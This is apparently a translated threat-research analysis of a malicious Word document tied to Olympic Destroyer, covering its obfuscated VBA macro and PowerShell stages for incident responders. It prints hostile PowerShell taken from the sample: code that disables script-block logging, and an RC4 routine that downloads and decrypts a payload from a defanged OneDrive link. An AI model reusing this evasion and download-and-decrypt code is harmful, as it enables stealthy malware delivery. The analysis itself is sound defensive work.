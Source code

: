 

## 二、感染过程分析

感染过程实际上比图1复杂，用到了各种不同的技术，将VBA代码、Powershell、MS HTA以及JScript混淆使用。我们可以仔细分析一下，以便事件响应人员以及安全研究人员能够随时识别此类攻击行为。

我们最近捕获的某个文档包含如下属性：

```
MD5: 0e7b32d23fbd6d62a593c234bafa2311
SHA1: ff59cb2b4a198d1e6438e020bb11602bd7d2510d
File类型: Microsoft Office Word
上一次保存日期: 2018-05-14 15:32:17 (GMT)
已知文件名: Spiez CONVERGENCE.doc
```

内嵌的宏经过高度混淆处理，包含随机生成的变量以及函数名。

[![](https://p3.ssl.qhimg.com/t016099c41b57918114.png)](https://p3.ssl.qhimg.com/t016099c41b57918114.png)

图2. 经过混淆的VBA宏

其功能是执行Powershell命令。这段VBA代码的混淆技术与原始的Olympic Destoryer所使用的鱼叉式钓鱼攻击技术相同。

样本通过命令行启动了一个新的经过混淆的Powershell scriptlet。混淆器使用了基于数组重排的技术来修改原始代码，并且对命令及控制（C2）服务器地址等所有命令及字符串做了保护处理。

有一款工具可以得到类似的效果：Invoke-Obfuscation 。

[![](https://p2.ssl.qhimg.com/t018772040f11eba205.png)](https://p2.ssl.qhimg.com/t018772040f11eba205.png)

图3. 经过混淆处理的Powershell scriptlet

这个脚本禁用了Powershell脚本日志功能以避免留下痕迹：

```
IF($`{`GPc`}`[ScriptBlockLogging])
`{`
    $`{`Gpc`}`[ScriptBlockLogging][EnableScriptBlockLogging]=0;
    $`{`gpc`}`[ScriptBlockLogging][EnableScriptBlockInvocationLogging]=0
`}`
```

脚本中内置了Powershell中RC4算法的具体实现，用来解密从微软OneDrive上下载的其他载荷。解密过程需要用到一个硬编码的32字节ASCII十六进制密钥。这一点与之前Olympic Destroyer鱼叉式钓鱼文档所使用的技术相似，也与在Olympic Destroyer的基础设施中发现的Powershell后门相似。

```
$`{`k`}`=  (  .VARiabLE Bqvm  ).vAlUE::“aSCiI”.GETBYtes.Invoke(d209233c7d7d7acee5aa0e8b0889bb1e);
$`{`R`}`=`{`
$`{`D`}`,$`{`K`}`=$`{`aRGS`}`;
$`{`s`}`=0..255;0..255^|^&amp;(‘%’)`{`
    $`{`J`}`=($`{`j`}`+$`{`S`}`[$`{`_`}`]+$`{`K`}`[$`{`_`}`%$`{`k`}`.“coUNt”])%256;
    $`{`S`}`[$`{`_`}`],$`{`S`}`[$`{`j`}`]=$`{`S`}`[$`{`J`}`],$`{`S`}`[$`{`_`}`]
`}`;
$`{`d`}`^|^&amp;(‘%’)`{`
    $`{`i`}`=($`{`i`}`+1)%256;
    $`{`h`}`=($`{`h`}`+$`{`s`}`[$`{`I`}`])%256;
    $`{`S`}`[$`{`i`}`],$`{`S`}`[$`{`h`}`]=$`{`s`}`[$`{`h`}`],$`{`s`}`[$`{`I`}`];
    $`{`_`}`–Bxor$`{`S`}`[($`{`S`}`[$`{`I`}`]+$`{`s`}`[$`{`h`}`])%256]
`}``}`;
$`{`daTa`}`=$`{`wc`}`.DOWNloADDatA.Invoke(https://api.onedrive[.]com/v1.0/shares/s!ArI-XSG7nP5zbTpZANb3-dz_oU8/driveitem/content);
$`{`IV`}`=$`{`dATa`}`[0..3];
$`{`dATa`}`=$`{`dATA`}`[4..$`{`dAta`}`.“LENgtH”];
–JoIn[CHar[]](^&amp; $`{`r`}` $`{`daTa`}` ($`{`iV`}`+$`{`k`}`))
```
